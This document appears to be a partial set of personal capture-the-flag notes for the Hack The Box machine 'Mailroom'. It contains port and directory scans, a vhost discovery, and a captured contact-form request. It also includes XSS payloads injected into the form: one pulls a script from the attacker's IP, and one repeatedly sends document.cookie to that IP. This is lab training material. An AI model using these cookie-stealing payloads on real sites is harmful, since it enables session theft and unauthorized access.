




└─$ nmap 10.10.11.219
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 22:00 EDT
Nmap scan report for 10.10.11.219
Host is up (0.56s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 73.85 se

mailroom.htb

we will add that to /etc/hosts

dirb mailroom.htb

gobuster dir --url http://mailroom.htb --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k

there is a contact.php tho



has an xss!

has two xsss

its a manual review so lets see if the xss can connect back 

dirb result

```
----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://mailroom.htb/ ----
==> DIRECTORY: http://mailroom.htb/assets/                                                                         
==> DIRECTORY: http://mailroom.htb/css/                                                                            
==> DIRECTORY: http://mailroom.htb/font/                                                                           
+ http://mailroom.htb/index.php (CODE:200|SIZE:7748)                                                               
==> DIRECTORY: http://mailroom.htb/inquiries/                                                                      
==> DIRECTORY: http://mailroom.htb/javascript/                                                                     
==> DIRECTORY: http://mailroom.htb/js/                                                                             
+ http://mailroom.htb/server-status (CODE:403|SIZE:277)                                                            
+ http://mailroom.htb/template (CODE:403|SIZE:277)                                                                 
                                                                                                                   
---- Entering directory: http://mailroom.htb/assets/ ----
+ http://mailroom.htb/assets/favicon.ico (CODE:200|SIZE:134582)                                                    
                                                                                                                   
---- Entering directory: http://mailroom.htb/css/ ----
                                                                                                                   
---- Entering directory: http://mailroom.htb/font/ ----
                                                                                                                   
---- Entering directory: http://mailroom.htb/inquiries/ ----
                                                                                                                   
---- Entering directory: http://mailroom.htb/javascript/ ----
==> DIRECTORY: http://mailroom.htb/javascript/jquery/                                                              
                                                                                                                   
---- Entering directory: http://mailroom.htb/js/ ----
                                                                                                                   
---- Entering directory: http://mailroom.htb/javascript/jquery/ ----
+ http://mailroom.htb/javascript/jquery/jquery (CODE:200|SIZE:287600)                                              
                                                                        
```

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir --url http://mailroom.htb --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://mailroom.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/07/01 22:29:02 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 313] [--> http://mailroom.htb/assets/]
/css                  (Status: 301) [Size: 310] [--> http://mailroom.htb/css/]
/template             (Status: 403) [Size: 277]
/js                   (Status: 301) [Size: 309] [--> http://mailroom.htb/js/]
/javascript           (Status: 301) [Size: 317] [--> http://mailroom.htb/javascript/]
/font                 (Status: 301) [Size: 311] [--> http://mailroom.htb/font/]
/server-status        (Status: 403) [Size: 277]
Progress: 220560 / 220561 (100.00%)
===============================================================
2023/07/02 01:49:02 Finished
===============================================================

```


```
POST /contact.php HTTP/1.1
Host: mailroom.htb
Content-Length: 56
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://mailroom.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://mailroom.htb/contact.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

email=ashwin%40instagram.com&title=ashwin&message=ashwin
```

 <script src="http://10.10.16.24:8000/cookie.js"></script>



getting this

no cookie

so maybe we can try

https://github.com/shelld3v/JSshell

jsh.py -g

<script>setInterval(function(){with(document)body.appendChild(createElement("script")).src="//10.10.16.24:4848/?".concat(document.cookie)},1010)</script>

it does give us a shell but for what?



need to look for alternatives.

so obviously this is different from pilgrimae as we know it

this is mailroom htb.
and there is already a machine called mailroom so! maybe they goofed up the machines?

yes they did


hahaha. anywhoo.

dirsearch -u http://mailroom.htb -t 200

```
 gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u mailroom.htb -t 50 --append-domain
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://mailroom.htb
[+] Method:          GET
[+] Threads:         50
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.5
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/07/02 20:23:15 Starting gobuster in VHOST enumeration mode
===============================================================
Found: git.mailroom.htb Status: 200 [Size: 13201]
Progress: 4989 / 4990 (99.98%)
===============================================================
2023/07/02 20:23:57 Finished

```

lets add to /etc/hosts 



got a gittea directory.

lets do adirectory enumeration on subdomain

we will get to know th eusers of gitea

in the repo htereis a metnion of another subdomain

staff-review-panel.mailroom.htb


